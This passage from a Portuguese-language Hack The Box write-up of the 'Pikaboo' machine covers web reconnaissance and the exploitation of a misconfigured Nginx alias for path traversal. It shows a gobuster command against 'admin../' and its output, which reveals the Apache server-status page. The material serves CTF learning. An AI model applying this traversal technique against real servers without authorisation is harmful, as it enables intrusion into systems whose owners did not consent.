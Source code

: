 Em `Contact`, temos um simplfes formulário de contato sem nada aparentemente utilizável na exploração.

<img src="/img/htb/htb-pikaboo-5.png">

Em `Admin` temos uma tela de auteticação que nos trouxe uma informação relevante. Ao clicarmos em `Cancelar` temos a seguinte informação:

<img src="/img/htb/htb-pikaboo-6.png">

Vemos a resposta de `Apache/2.4.38 (Debian) Server at 127.0.0.1 Port 81`, porém na varredura com nmap, vimmos o `Nginx` na porta `80`. O que significa que o Nginx está chamando o Apache que está rodando localmente.

### Exploração

Após um tempo de pesquisa sobre vulnerabilidades no Nginx, que é nossa porta de entrada, encontrei este [artigo](https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/).

Basicamente podemos nos aproveitar do Nginx mal configurado para obtermos `Path Traversal` ao adicionarmos `../` na URL e conseguirmos enumerar diretórios, vamos tentar.

```bash
┌──(hastur㉿hastur)-[~/Pikaboo]
└─$ gobuster dir -e -u http://pikaboo.htb/admin../ -w /usr/share/wordlists/dirb/common.txt -r                                                                                                                                            1 ⨯
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://pikaboo.htb/admin../
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Follow Redirect:         true
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
2021/09/19 15:24:00 Starting gobuster in directory enumeration mode
===============================================================
http://pikaboo.htb/admin../.hta                 (Status: 403) [Size: 274]
http://pikaboo.htb/admin../.htaccess            (Status: 403) [Size: 274]
http://pikaboo.htb/admin../.htpasswd            (Status: 403) [Size: 274]
http://pikaboo.htb/admin../admin                (Status: 401) [Size: 456]
http://pikaboo.htb/admin../server-status        (Status: 200) [Size: 6399]
```